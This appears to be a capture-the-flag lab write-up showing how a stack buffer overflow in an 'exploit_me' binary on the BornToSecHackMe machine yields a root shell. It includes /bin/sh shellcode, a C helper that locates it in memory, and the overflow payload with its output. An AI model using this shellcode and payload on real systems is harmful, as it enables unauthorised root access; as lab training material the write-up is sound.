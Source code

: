 [See detailed writeup here](../writeup1.md)

[See detailed writeup here 5](writeup5.md)

This time we will exploit `**exploit_me**` in the zaz user with shellcode.

```
export shellcode=$'\x31\xdb\x89\xd8\xb0\x17\xcd\x80\x31\xdb\x89\xd8\xb0\x2e\xcd\x80\x31\xc0
\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80'
```

When you search for "/bin/sh shellcode" on Google, this is one of the first results:

```
https://shell-storm.org/shellcode/files/shellcode-827.html
```

We copied the shellcode directly from there and put it into an environment variable.

We will use a simple C code to get the pointer address of this shellcode.

```
#include <stdio.h>
#include <stdlib.h>

int main(int ac, char **av)
{
        if (ac == 2)
        {
                char* ptr = getenv(av[1]);
                printf("%p\n", ptr);
        }
}
```

```
zaz@BornToSecHackMe:~$ gcc shellcode.c

zaz@BornToSecHackMe:~$ ./a.out shellcode
0xbffffef7
zaz@BornToSecHackMe:~$
```
Our second argument is the shellcode environment variable we added.

We just obtained the memory address and now we need to use it in little endian format.

```little endian = "\xf7\xfe\xff\xbf" ```


```
zaz@BornToSecHackMe:~$ ./exploit_me $(python -c 'print "\x90" * 140 + "\xf7\xfe\xff\xbf"')
������������������������������������������������������������������������������������������������������������������������������������������������
# whoami
root
# id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
# exit

```

FINALLY WE ARE ROOT #8 ;D